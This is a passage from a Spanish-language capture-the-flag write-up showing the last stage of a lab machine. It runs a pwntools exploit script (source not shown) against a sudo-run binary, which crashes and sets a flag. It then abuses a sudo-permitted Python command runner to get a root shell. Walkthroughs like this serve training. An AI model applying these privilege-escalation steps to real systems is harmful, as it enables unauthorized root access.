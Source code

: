 Como necesitamos el modulo de `pwn` y vemos que tenemos `pip3` instalado, podremos instalarlo de la siguiente forma:

```shell
pip3 install pwntools --break-system-packages
```

Y ahora si ejecutaremos el script.

```shell
python3 exploit.py
```

Info:

```
[*] '/opt/suma'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Starting local process '/usr/bin/sudo': pid 6203
[+] Receiving all data: Done (30B)
[*] Process '/usr/bin/sudo' stopped with exit code -11 (SIGSEGV) (pid 6203)
b'\nAcceso denegadoFlag activada\n'
```

Vemos que nos ha funcionado, ahora si leemos la `flag.txt`:

```shell
cat /opt/command_exec/flag.txt
```

Info:

```
ACTIVE
```

Vemos que efectivamente a funcionado, por lo que habremos lo siguiente:

```shell
sudo python3 /opt/command_exec/command_exec.py
```

Info:

```
Autorizado

Escribe un comando: bash
root@b75fcc146213:/tmp# whoami
root
```

Ponemos `bash` cuando nos ponga el ejecutar un comando y ya seremos `root`, por lo que habremos terminado la maquina.
